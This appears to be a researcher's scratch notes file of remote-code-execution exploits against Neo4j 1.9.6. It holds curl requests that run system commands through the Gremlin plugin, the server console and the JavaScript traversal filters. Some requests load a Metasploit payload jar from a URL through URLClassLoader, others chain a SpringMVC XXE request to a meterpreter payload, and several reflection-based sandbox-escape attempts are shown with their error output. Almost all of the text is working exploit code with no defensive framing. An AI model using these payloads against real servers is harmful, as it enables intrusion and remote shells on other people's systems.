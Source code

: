Neo4J version 1.9.6

neo4j start

# Local Neo4J/Gremlin RCE exploits
curl -X POST http://localhost:7474/db/data/ext/GremlinPlugin/graphdb/execute_script -d '{"script":"import java.lang.Runtime;rt = Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "params": {} }' -H "Content-Type: application/json"

curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"rt = Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\");","engine":"gremlin"}' -H "Content-Type: application/json"

curl -X POST http://localhost:7474/db/manage/server/console/ -d '{"command":"URL url=new URL(\"http://localhost/~alvaro/met.jar\");def urlList = [] << url;URL[] urls = urlList.toArray();new URLClassLoader(urls).loadClass(\"metasploit.Payload\").newInstance()","engine":"gremlin"}' -H "Content-Type: application/json"

# Remote SpringMVC XXE + Neo4J/Gremlin RCE exploits
curl --header "content-type: application/xml" --header "Accept: application/xml" --data @xxe_neo4j_xclock.xml -X POST  "http://192.168.239.146:8080/contacts"

curl --header "content-type: application/xml" --header "Accept: application/xml" --data @xxe_neo4j_meterpreter.xml -X POST  "http://192.168.239.146:8080/contacts"

# Create a node
:POST /db/data/node {}
:PUT /db/data/node/1/properties/name "Alvaro"
:GET /db/data/node/1

:POST /db/data/node/2/traverse/node { "order" : "breadth_first", "return_filter" : { "body" : "position.endNode().getProperty('name').toLowerCase().contains('a')", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}

:POST /db/data/node/2/traverse/node { "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.String('test').contains('t')", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}

:POST /db/data/node/2/traverse/node { "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.Runtime.getRuntime().exec('/Applications/Calculator.app/Contents/MacOS/Calculator')", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}

# Test
position.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.String(\"test\").contains(\"t\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

# Direct access to Runtime
new java.lang.Runtime.getRuntime().exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "new java.lang.Runtime.getRuntime().exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

"TypeError: [JavaPackage java.lang.Runtime.getRuntime] is not a function, it is object."

# Reflection way 1
position['class'].forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('/Applications/Calculator.app/Contents/MacOS/Calculator')

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "position.getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

"message" : "Access to Java class \"java.lang.Class\" is prohibited."

# Reflection way 2
curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "position[\"class\"].forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"/Applications/Calculator.app/Contents/MacOS/Calculator\")", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

"message" : "Access to Java class \"java.lang.Class\" is prohibited."

# URLClassLoader
new URLClassLoader(new URL[]{new URL("http://localhost/~alvaro/met.jar")}).loadClass("metasploit.Payload").newInstance()
new URLClassLoader(new URL[]{new URL(\"http://localhost/~alvaro/met.jar\")}).loadClass(\"metasploit.Payload\").newInstance()

curl -X POST  http://localhost:7474/db/data/node/2/traverse/node -H "Content-Type: application/json" -d '{ "order" : "breadth_first", "return_filter" : { "body" : "var str = new java.lang.String(\"http://localhost/~alvaro/met.jar\");var url = new java.net.URL(str); var array = [url]; var cl = new java.lang.URLClassLoader(array);true", "language" : "javascript" }, "prune_evaluator" : { "body" : "position.length() > 10", "language" : "javascript" }, "uniqueness" : "node_global", "relationships" : [], "max_depth" : 1}'

TypeError: [JavaPackage java.net.URL] is not a function, it is object.




